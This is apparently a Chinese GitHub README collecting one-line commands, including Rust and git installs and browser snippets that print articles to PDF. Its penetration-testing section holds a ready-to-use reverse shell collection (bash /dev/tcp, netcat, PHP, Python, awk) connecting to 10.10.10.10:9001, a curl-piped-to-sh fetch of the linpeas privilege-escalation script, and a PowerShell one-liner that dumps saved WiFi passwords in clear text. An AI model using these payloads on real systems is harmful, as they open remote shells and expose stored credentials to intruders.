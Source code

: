 # Oneliner
---
这是一个 包含了 只需要一行 instruction sequence 即可完成目标的 仓库.

将每一条记录称为 liner

这个仓库 涵盖了很多方面 如下载 安装 POC验证 EXP利用 等.

仓库遵循 content first 原则.

由于项目的特殊性, 参加项目请使用issue 来提供您的 liner

格式要求
````
## category <!-- 分类, 也是liner的 头部 --> <!-- 由管理员 识别并合并 -->
### title
> ***<date YY-mm-dd>: <author|mail>***
[> **<description>**] <!-- 描述信息 -->
```lang <!-- 该部分可有多个 -->
instruction
```
--- <!-- 当前liner的 分割线 也是尾部 -->
````
## 目录
* [Rust](#rust)
  * [Linux安装Rust环境](#linux安装rust环境)
* [渗透测试](#渗透测试)
  * [Linpeas.sh枚举提权信息](#linpeassh枚举提权信息)
  * [反弹shell合集](#反弹shell合集)
* [xxx2pdf](#xxx2pdf)
  * [freebuf2pdf](#freebuf2pdf)
  * [csdn2pdf](#csdn2pdf)
  * [wechat2pdf](#wechat2pdf)
* [WIFI](#wifi)
  * [powershell获取密码](#powershell获取密码)

<!-- 列表头 -->
## Rust
### Linux安装Rust环境
> ***2024-6-25: fb0sh***
```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
> **(中国区环境)**
```bash
export RUSTUP_DIST_SERVER="https://rsproxy.cn";export RUSTUP_UPDATE_ROOT="https://rsproxy.cn/rustup";curl --proto '=https' --tlsv1.2 -sSf https://rsproxy.cn/rustup-init.sh | sh
```
---


## 渗透测试
### Linpeas.sh枚举提权信息
> ***2024-6-25: fb0sh***
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
> **python2**
```bash
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
> **python3**
```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
--- 

### 反弹shell合集
> ***2024-6-25: fb0sh***

> **bash**
```bash
/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```
> **nc**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```
```bash
nc 10.10.10.10 9001 -e /bin/bash
```
> **php**
```php
php -r '$sock=fsockopen("10.10.10.10",9001);popen("/bin/bash <&3 >&3 2>&3", "r");'
```
> **python**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
```python3
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.10",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
> **awk**
```bash
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.10/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
--- 

### xxx2pdf
> 打开浏览器控制台后粘贴js代码
### freebuf2pdf
> ***2024-6-28: fb0sh***
```js
["articles-layout-header ant-layout-header", "page-header", "ant-layout-footer","floating-view", "aside-left", "aside-right", "remix-module","introduce"].forEach(c => document.getElementsByClassName(c)[0].remove());document.getElementsByClassName("main")[0].setAttribute("style","width:100%");window.print();
```
---
### csdn2pdf
> ***2024-6-28: fb0sh***
```js
["toolbarBox", "rightAside", "pcCommentBox", "recommendNps", "toolBarBox"].forEach(i => document.getElementById(i).remove());["blog_container_aside", "recommend-box", "blog-footer-bottom", "csdn-side-toolbar"].forEach(c => document.getElementsByClassName(c)[0].remove());document.querySelectorAll("main")[0].setAttribute("style","width:95");window.print();
```
---
### wechat2pdf
> ***2024-6-28: fb0sh***

> **也可直接使用edge快捷键Ctrl+P**
```js
window.print();
```
---
## WIFI
### powershell获取密码
> ***2024-7-1: fb0sh***

> 请放入powershell里
```powershell
$language=(Get-Culture).Name;if($language -eq "zh-CN"){$profileRegex="\s所有用户配置文件\s*:\s*(.*)$";$keyContentRegex="关键内容\s*:\s*(.*)$"}else{$profileRegex="\sAll User Profile\s*:\s*(.*)$";$keyContentRegex="Key Content\s*:\s*(.*)$"};$results=@();$profiles=netsh wlan show profiles|Select-String $profileRegex|ForEach-Object {$_.Matches[0].Groups[1].Value.Trim()};foreach($profile in $profiles){$profileInfo=netsh wlan show profile name="$profile" key=clear;$passwordMatch=$profileInfo|Select-String $keyContentRegex;$password=if($passwordMatch){$passwordMatch.Matches[0].Groups[1].Value.Trim()}else{"No Password Found"};$results+=[PSCustomObject]@{SSID=$profile;Password=$password}};$results|Format-Table -AutoSize
```
## GIT
### winget安装git
> ***2024-7-4: fb0sh***
```powershell
winget install --id Git.Git -e --source winget
```
---
<!-- 列表尾 -->
